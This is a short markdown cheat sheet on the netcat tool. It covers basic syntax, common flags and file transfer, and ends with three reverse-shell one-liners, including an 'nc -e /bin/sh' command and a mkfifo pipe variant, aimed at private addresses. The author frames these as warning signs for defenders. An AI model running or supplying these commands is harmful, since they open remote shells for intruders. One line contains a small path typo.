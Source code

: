 ```yaml
---
title: 'CheatSheet: netcat'
date: '2022-09-20'
---
```

- ## CheatSheet: netcat
	---
	Netcat is a networking tool that can provide simple network connections to read or write data between remote endpoints. This tool is useful for troubleshooting networks, exploring remote resources, and creating ad-hoc communication channels.

	Unexpected use of this utility may be an indicator of malicious activity.

- ## Basic Usage
	---
	```
	// Arbitrary TCP and UDP connections and listens.
	nc [options] <hostname> <dest_port(s)> 
	```

- ## Common Flags
	---
	[-4] Forces nc to use IPv4 addresses.
	
	[-6] Forces nc to use IPv6 addresses.
	
	[-i] Interval, specifies a delay time interval betweens lines of text sent/recieved.
	
	[-k] Forces nc to stay listening for another connection after its current connection is completed.
	
	[-l] Listen for connections.
	
	[-n] Do not make and DNS/service lookups on specified addresses, hostnames, or ports.
	
	[-p] Source Port
	
	[-r] Select source/destination ports randomly instead of sequentially.
	
	[-s] Source IP Address
	
	[-u] Use UDP instead of TCP.
	
	[-w] Timeout, silently close connection if connection/stdin are idle for more than timeout seconds.

- ## File Transfers
	---
	```
	// On the file recipient.
	nc -l -p 40000 > out.file
	
	// On the file sender.
	nc -w 3 10.10.10.10 40000 < in.file
	```

- ## Reverse Shell
	---
	This activity is highly unsual for a network admin to perform. If the following commands are observed, they should be viewed with extreme caution. I recommend establishing connections with more traditional methods for day-to-day admin activity.
	```
	// Standard
	nc -e /bin/sh 10.0.0.1 40001
	
	// -e is not available, OpenBSD
	nc 10.0.0.2 40002 | /bin/bash | nc 10.0.0.2 40002
	
	// -e is not available
	rm /tmp/f; mkfifo /tmp/f; cat tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.3 40003 > /tmp/f
	```
